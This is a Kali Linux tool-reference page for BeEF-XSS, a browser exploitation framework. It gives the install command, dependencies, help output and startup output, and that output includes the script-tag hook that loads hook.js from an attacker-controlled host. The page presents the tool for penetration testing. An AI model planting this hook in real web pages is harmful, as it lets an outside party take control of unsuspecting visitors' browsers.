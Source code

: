 ```yaml
---
description: >-
  BeEF-XSS (Browser Exploitation Framework) is a penetration testing tool that
  allows the attacker to exploit vulnerabilities in web browsers and gain
  control over them.
---
```


# 🎩 beef-xss

### Screenshots <a href="#screenshots" id="screenshots"></a>

[![beef-xss](<../../.gitbook/assets/beef xss.png>)](<../../.gitbook/assets/beef xss.png>)

### beef Usage Example <a href="#beef-usage-example" id="beef-usage-example"></a>

```
:~# beef-xss
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - LSB: BeEF
   Loaded: loaded (/etc/init.d/beef-xss; generated)
   Active: active (running) since Sat 2018-11-24 18:44:53 EST; 5s ago
     Docs: man:systemd-sysv-generator(8)
  Process: 3457 ExecStart=/etc/init.d/beef-xss start (code=exited, status=0/SUCCESS)
    Tasks: 5 (limit: 4665)
   Memory: 151.9M
   CGroup: /system.slice/beef-xss.service
           └─3463 ruby /usr/share/beef-xss/beef

Nov 24 18:44:53 kali systemd[1]: Starting LSB: BeEF...
Nov 24 18:44:53 kali systemd[1]: Started LSB: BeEF.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1...
```

***

\


### Packages and Binaries:

#### beef-xss <a href="#beef-xss" id="beef-xss"></a>

BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser.

Amid growing concerns about web-born attacks against clients, including mobile clients, BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors. Unlike other security frameworks, BeEF looks past the hardened network perimeter and client system, and examines exploitability within the context of the one open door: the web browser. BeEF will hook one or more web browsers and use them as beachheads for launching directed command modules and further attacks against the system from within the browser context.

**Installed size:** `19.74 MB`\
**How to install:** `sudo apt install beef-xss`

<details>

<summary>Dependencies:</summary>

* adduser
* lsof
* ruby-ansi
* ruby-async-dns
* ruby-dev
* ruby-em-websocket
* ruby-erubis
* ruby-espeak
* ruby-eventmachine
* ruby-execjs
* ruby-json
* ruby-maxmind-db
* ruby-mime-types
* ruby-msfrpc-client
* ruby-otr-activerecord
* ruby-parseconfig
* ruby-qr4r
* ruby-rack
* ruby-rack-protection
* ruby-rubydns
* ruby-rushover
* ruby-sinatra
* ruby-slack-notifier
* ruby-sqlite3
* ruby-term-ansicolor
* ruby-terser
* ruby-twitter
* ruby-xmlrpc
* ruby-zip
* rubygems-integration
* thin
* xdg-utils

</details>

**beef-xss**

```
:~# beef-xss -h
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
```

***

**beef-xss-stop**

```
:~# beef-xss-stop -h
* beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: inactive (dead)
```

***

Updated on: 2022-Nov-16\


***
